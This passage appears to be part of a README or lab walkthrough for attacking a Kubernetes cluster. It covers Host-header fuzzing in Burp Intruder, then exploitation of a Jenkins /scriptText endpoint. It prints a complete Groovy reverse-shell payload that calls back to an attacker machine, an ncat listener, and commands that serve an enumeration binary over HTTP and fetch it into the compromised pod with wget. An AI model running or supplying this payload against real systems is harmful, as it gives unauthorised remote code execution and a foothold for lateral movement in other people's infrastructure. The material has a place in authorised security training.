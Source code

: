 1. In burp find a request to the gateway and send it to intruder with Ctrl-I.
2. Click remove to remove all the pesky auto places section markers.
3. Highlight the value of the `Host` header and click add markers.
4. In the payloads tab of intruder click load and select the `wordlist` file.
5. Click attack.

## Down with Jenkins

Since we have now figured out that there is a jenkins service running in the cluster and
we can send requests to it by way of the API gateway, we might try attacking it.

Motivations for doing this. Jenkins in a cluster implies that there is a CI/CD pipeline.
This implies that the Jenkins service may have high enough permissions in the cluster to at
least view and deploy pods. Also, it's Jenkins, it's an easy target :)

Let's try getting a reverse shell with some Groovy code. By default some Jenkins installs have
the `/scriptText` endpoint enabled which allows for the execution of Groovy code remotely. As an
attacker that's... Groovy!

### Start a netcat listener on your attack machine

```
ncat -lvp <port>
```

TODO: Sample Request to execute Groovy reverse shell

```
POST / HTTP/1.1
Host: https://jenkinssvc:8080/scriptText

script=String host="<attack-machine-ip";
int port=<listener-port>;
String cmd="<command>";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Once the reverse shell connects to your listener we will need to get `enum4k8s` into the
compromised jenkins pod.

We can do this by starting a python http server in the `enum4k8s` dir.

In a new terminal window:

```
cd /path/to/enum4k8s
python -m http.server 4444
```

Now back in your reverse shell:

```
wget http://<attack-machine-ip>:4444/build/static/enum4k8s
chmod +x enum4k8s
```
